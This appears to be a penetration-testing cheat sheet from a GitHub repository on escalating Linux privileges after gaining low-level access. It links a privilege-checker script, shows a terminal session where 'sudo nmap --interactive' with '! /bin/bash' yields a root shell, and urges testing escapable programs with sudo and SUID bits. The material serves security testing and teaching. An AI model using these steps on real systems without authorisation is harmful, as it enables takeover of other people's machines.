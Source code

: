 # LINUX
This sheet serves as a resource for processes commonly used to escalate privileges of a low-privilege user access during the post-exploitation phase of the penetration test.
## Run the LINUX Privilege Checker Python Script
If Python is installed, **make sure that this script is ran immediately** [LinuxPrivChecker Python script](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Privilege%20Escalation/Tools/linuxprivchecker.py) upon gaining low-level access to a target system. This script will provide quick insight into possible misconfigurations in the target system.

## SUDO Test
Testing for sudo will sometimes reveal a nice surprise. The [LinuxPrivChecker Python script](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Privilege%20Escalation/Tools/linuxprivchecker.py) will tell you exactly which commands/programs are installed with interactive shells that can be escaped from. For instance, some older version of `nmap` had a interactivbe shell. This meant that on certain systems in which a default account has non-authenticated sudo access to it, it could easily lead to a root shell.

```
bash-3.2$ ls -lah /usr/bin/nmap
ls -lah /usr/bin/nmap
-rwxr-xr-x 1 root root 523K Jan  6  2007 /usr/bin/nmap
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> ! /bin/bash
! /bin/bash
bash-3.2# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
bash-3.2# 
```
So, it is **very important** that all of these are tested with sudo.

## SUID Test
Some of the aforementioned applciations which can be escaped from may have a SUID bit set in the permissions. This means that the effective user ID becomes that of the file's owner. **Again, test all of these** applications, **without sudo** if the attack above is unsuccessful because some of the file permissions may not be set correctly. You'd be surprised.

